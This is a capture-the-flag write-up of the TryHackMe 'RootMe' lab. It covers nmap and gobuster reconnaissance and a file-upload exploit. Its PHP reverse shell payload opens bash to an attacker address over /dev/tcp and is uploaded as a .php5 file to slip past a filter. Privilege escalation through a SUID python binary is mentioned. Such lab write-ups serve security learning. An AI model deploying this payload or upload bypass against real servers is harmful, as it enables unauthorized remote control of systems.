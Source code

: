 
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-1.png)

. After a quick directory bruteforcing i found an upload form in which i uploaded a reverse shell and become root by finding a suid binary. 

I started with a basic scan, followd by a more detailed one with the ports found open.

```
nmap -sS -T4 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:44 EDT
Nmap scan report for 10.10.124.42
Host is up (0.071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
nmap -sV -sC -p22,80 10.10.124.42
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-10 04:50 EDT
Nmap scan report for 10.10.124.42
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


On the web port is this page
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-2.png)

Because there are only 2 open ports, i need to fully enumerate the web server to make sure i am not stuck somewhere not knowing what to do. 

```
gobuster dir -u http://10.10.124.42/ -w /usr/share/wordlists/dirb/common.txt T 250
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.42/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/10 04:48:37 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
The only useful pages found are /panel and /uploads. The /panel page can be exploited by uploading a reverse shell payload.

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-3.png)

The mininal reverse shell payload i used.
```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.5.181/1234 0>&1'");
```

The file name was rev.php5, as php did not work. Before ulploading it, i will prepare the netcat listener.

If the uploading process was successfull, will appear this panel alongside this link that points to the uploads page.  

![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-4.png)

The user flag is in the website directory.  
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-5.png)

Now it's time for privesc. Among these binaries is also python.  
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-6.png)

The payload below was taken from gtfobins. The only thing to do is to read the root flag.  
![alt text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Root%20me/images/89-7.png)


